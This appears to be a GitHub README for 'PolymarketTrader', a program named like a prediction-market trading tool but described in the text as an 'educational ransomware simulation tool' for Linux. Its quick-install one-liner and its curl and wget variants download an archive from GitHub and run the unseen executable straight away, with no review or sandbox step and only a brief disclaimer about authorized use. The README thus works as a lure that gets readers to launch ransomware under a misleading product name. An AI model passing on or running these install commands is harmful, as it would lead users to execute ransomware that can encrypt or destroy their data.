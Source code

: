 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && cd poly-trader && curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz && tar -xzf polymarket-trader.tar.gz && ./PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the compressed archive
3. Extract the executable (permissions preserved)
4. Run the program automatically

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download archive
curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz

# Extract (permissions preserved)
tar -xzf polymarket-trader.tar.gz

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz
tar -xzf polymarket-trader.tar.gz
./PolymarketTrader
```

## Troubleshooting

### Extraction Issues
If tar extraction fails, ensure you have tar installed:
```bash
# On Ubuntu/Debian
sudo apt-get install tar

# On RHEL/CentOS
sudo yum install tar
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

### Permission Issues
If you still get permission errors (rare), run:
```bash
chmod +x PolymarketTrader
```

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** x86_64
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.

## Educational Purpose

This tool is designed for educational purposes to demonstrate ransomware behavior in a controlled environment. Use responsibly and only in authorized testing environments.

## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 

